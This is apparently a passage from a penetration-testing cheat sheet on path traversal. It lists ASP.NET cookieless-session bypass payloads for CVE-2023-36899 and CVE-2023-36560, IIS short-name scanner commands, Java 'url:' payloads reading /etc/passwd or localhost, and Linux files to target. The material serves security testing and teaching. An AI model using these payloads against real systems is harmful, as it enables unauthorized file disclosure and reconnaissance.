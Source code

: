 * If your application is in a subfolder
    ```ps1
    /MyApp/(S(X))/
    /admin/(S(X))/main.aspx
    /admin/Foobar/(S(X))/../(S(X))/main.aspx
    ```

| CVE            | Payload                                        |
| -------------- | ---------------------------------------------- |
| CVE-2023-36899 | /WebForm/(S(X))/prot/(S(X))ected/target1.aspx  |
| -              | /WebForm/(S(X))/b/(S(X))in/target2.aspx        |
| CVE-2023-36560 | /WebForm/pro/(S(X))tected/target1.aspx/(S(X))/ |
| -              | /WebForm/b/(S(X))in/target2.aspx/(S(X))/       |


### IIS Short Name

The IIS Short Name vulnerability exploits a quirk in Microsoft's Internet Information Services (IIS) web server that allows attackers to determine the existence of files or directories with names longer than the 8.3 format (also known as short file names) on a web server.

* [irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
    ```ps1
    java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX_ALLOCATION/'
    java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/MyApp/bin::$INDEX_ALLOCATION/'
    ```

* [bitquark/shortscan](https://github.com/bitquark/shortscan)
    ```ps1
    shortscan http://example.org/
    ```


### Java URL Protocol

Java's URL protocol when `new URL('')` is used allows the format `url:URL`

```powershell
url:file:///etc/passwd
url:http://127.0.0.1:8080
```


## Path Traversal

### Linux Files

* Operating System and Informations
    ```powershell
    /etc/issue
    /etc/group
    /etc/hosts
    /etc/motd
    ```
